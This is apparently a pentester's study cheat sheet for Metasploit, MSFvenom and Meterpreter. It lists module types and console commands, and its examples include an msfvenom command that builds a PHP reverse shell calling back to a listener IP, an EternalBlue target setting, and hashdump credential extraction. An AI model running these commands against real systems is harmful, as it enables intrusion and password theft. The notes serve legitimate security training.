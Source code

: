 #### [Documentation](https://docs.metasploit.com/)

# Metasploit
## Description
Metasploit is an exploitation framework/suite of tools designed to automatically detect standard software and firmware vulnerabilities and deliver exploits against them.
- Start Metasploit with cmd: `msfconsole`

## Components
- **msfconsole**: The main command-line interface.
- **Modules**: Small components within Metasploit used to perform tasks such as exploits, scanners, payloads, etc.
	- **Auxiliary:** scanners, crawlers, and fuzzers.
	- **Encoders:** used to encode an exploit and payload to avoid signature-based antivirus protection.
	- **Evasion:** another way to evade detection from other antivirus detection methods.
	- **Exploit:** used to take advantage of a vulnerability on a target system to deliver a payload.
	- **Payloads:** code that will run on a target system to achieve the desired result (shell, malware, backdoor, privilege escalation).
		- **Singles (or inline):** payloads that do not need any additional components to run
		- **Stagers:** used to establish a connection between Metasploit and a target system. After a *stager* is used to create an initial contact, *stages* are sent, allowing a pentester to send additional larger payloads.
			- Advantages: Initial payload is small and avoids sending duplicate code to establish a connection when using multiple payloads.
		- **Stages:** used after a *stager*, allowing the attacker to use larger payloads.
	- **Post:** used at the end of an engagement or post-exploitation.
- **Tools**: Stand-alone tools used for vulnerability research, vulnerability assessment, and penetration testing.


## Commands
- `msfconsole` - Launches Metasploit command-line interface
- `use [path to exploit]` - Use to select a module
- `show [module type]` - lists available modules within a specified module type (all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options, favorites)
- `info` - Provides additional info on specified modules.
- `search` - Use to search the Metasploit database for modules
	- Search from CVE numbers, exploit names, or platform
	- Examples:
		- `search cve:2009 type:exploit`
		- `search cve:2009 type:exploit platform:-linux`
		- `search cve:2009 -s name`
		- `search type:exploit -s type -r`


## Commands in context
Refers to commands used after selecting a specific module. For example, you can choose a module using the `use` command followed by the path to the module.
- `show options` - Used after a module is selected to list the module and payload options available for the exploit. Lists additional info such as option name, current setting (if set), if required, and description info for each option.
- `set` - Use to set options of a module
	- Example: `msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39`
- `setg [option] [set to]` - Used to set global perameters
- `unsetg [variable]` - Clear one or more global perameters
	- To flush all entries, specify 'all' as the variable name
- `back` - Moves back to the previous location/ exits selected module
- `info` - Provides additional info on specified modules.
- `show payloads` - Show additional commands/payload options for selected exploit
- `set payload` - Use payload for selected exploit
- `exploit` - runs exploit

## Error Handling
- **Exploit completed, but no session was created**
	1) Check `show options` and make sure you are not missing `LHOST` or `LPORT` requirements to connect to shell


# MSFvenom
## Description
MSFvenom is where a pentester can access all the payloads available within Metasploit and create new payloads in different formats and operating systems.
- Allows the pentester the ability to upload raw files for exploitation

**Example of using MSFvenom to achieve a reverse shell is as follows:**
1) Generate a reverse shell script using MSFvenon in a specified file format
	- Reference "*Generating a reverse shell*" under examples
2) Deliver/install shell script onto the target machine
3) Start the Metasploit multi-handler to listen for reverse shell callbacks "catching a shell."
	- `msf6 > use exploit/multi/handler`
4) Execute the reverse shell on the target machine. After execution, your *handler* should catch the connection and allow the pentester access to the machine.

**Note:** payloads are created with comments that will prevent the payload from running unless removed. Therefore, make sure to open the payload and remove comments from the beginning and end of the file before using it.

## Commands
 - `-l, --list [type]` - List all modules for payloads, encoders, nops, platforms, archs, encrypt, formats, and all
 - `-p, --payload [payload]` - Payload to use

## Examples
- **Generating a reverse shell:**
	- `msfvenom -p php/reverse_php LHOST=10.0.0.1 LPORT=1234 -f raw > reverse_shell.php`
		- `msfvenom` - specify that you are using MSFvenom
		- `-p php/reverse_php` - specifies to use payload "php/reverse_php"
		- `LHOST=10.0.0.1` - sets the local IP address (should be the IP of the machine you are using for your pentest)
		- `LPORT=1234` - sets local port used to catch reverse shell connection
		- `> reverse_shell.php` - specifies output filename

# Meterpreter
## Description
Meterpreter is a tool that runs within the target system's memory, acting as a command and control agent communicating with the attacked computer through encrypted communications. Meterpreter provides post-exploitation tools used to escalate privileges and move laterally. Additionally, you can use Meterpreter commands to interact more easily with the target operating system and files.
- **Note:** most antivirus software will detect meterpreter and is not a stealth tool.

Determining which Meterpreter payload to use can be decided using three factors:
1) Target operating system (OSX, Linux, Windows, iOS, Android, etc.)
2) Target system components (Python, PHP website, etc.)
3) Network connection (TCP, HTTPS, etc.)
- Search for Meterpreter shells using the command
	- `msfvenom --list payloads | grep meterpreter`

## Using Post-Exploitation Tools
**Post exploitation goals:**
- Gather information from the target system
- Search for files, credentials, network interfaces, etc.
- Escalate privileges
- Move laterally to another machine on the network

### Steps for using post-exploitation tools
1) Background your current meterpreter session `ctrl + Z` to use other modules
2) Check your currents sessions from msfconsole using `sessions` cmd
	 - In the future, we can go back to this session using `sessions -i #`.
3) Use the `back` cmd to exit the current module and load a post-exploitation module
	- Example: `msf6 > use post/windows/gather/enum_shares`
4) Set options for selected module and then set session id gathered previously `set SESSION 1`
5) run

## Commands
Meterpreter commands will be different for each version. To get a list of available commands, type `help`
- `hashdump` - Dumps the database contents where users' passwords are stored on Windows OS.
	- The SAM (Security Account Manager) database stores users' passwords on Windows systems.
	- Passwords are stored in the NTLM (New Technology LAN Manager) format.
- `search` - Use to locate specific files within a system
	- Example: `search -f flag.txt`
- `ctrl + Z` - Opens background session to return to msfconsole
- `sessions` - Shows current background sessions

## Converting Normal Shell to Meterpreter
**Reference:** [Upgrade Normal Shell To Meterpreter Shell](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
